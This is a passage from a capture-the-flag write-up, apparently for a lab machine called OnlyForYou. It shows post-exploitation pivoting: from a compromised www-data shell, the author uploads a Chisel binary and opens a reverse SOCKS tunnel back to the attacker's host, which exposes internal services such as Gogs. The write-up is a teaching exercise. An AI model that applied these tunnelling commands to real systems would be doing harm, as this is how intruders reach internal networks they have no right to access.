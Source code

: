 3306 is the default MySQL port, and 33060 is likely another MySQL instance. I’ll want to check out 3000, 8001, 7687, and 7474. It’s also worth nothing that none of these are likely running as www-data, other than port 80, or else they would probably return the process and pid.

#### Tunnel

To continue, I’ll set up a tunnel to allow me to proxy connections through OnlyForYou and reach these servers working on localhost.

I’ll upload a [Chisel](https://github.com/jpillora/chisel) binary to OnlyForYou, and then start the server:

```

oxdf@hacky$ /opt/chisel/chisel_1.8.1_linux_amd64 server -p 8000 --reverse
2023/04/24 14:25:31 server: Reverse tunnelling enabled
2023/04/24 14:25:31 server: Fingerprint LNDjYEqIYXW7aISw1MfeHDDjm3sTJiXBpWumcgair/Y=
2023/04/24 14:25:31 server: Listening on http://0.0.0.0:8000

```

`-p 8000` is because it listens on 8080 by default, but I have Burp there already. `--reverse` means that the client can open up listeners on the server.

On OnlyForYou, I’ll run it in client mode:

```

www-data@only4you:/dev/shm$ ./chisel_1.8.1_linux_amd64 client 10.10.14.6:8000 R:socks

```

The connection reaches the server:

```

2023/04/24 14:26:27 server: session#1: tun: proxy#R:127.0.0.1:1080=>socks: Listening

```

I’ll set up FoxyProxy to use this:

![image-20230424142926227](/img/image-20230424142926227.png)

#### Gogs - TCP 3000

The service on port 3000 is Gogs, a opensource Git solution:

```

www-data@only4you:/$ curl localhost:3000
<!DOCTYPE html>
<html>                                              
<head data-suburl="">
        <meta http-equiv="Content-Type" content="text/html; charset=UTF-8" />
        <meta http-equiv="X-UA-Compatible" content="IE=edge"/>

                <meta name="author" content="Gogs" />
                <meta name="description" content="Gogs is a painless self-hosted Git service" />
                <meta name="keywords" content="go, git, self-hosted, gogs">
...[snip]...

```
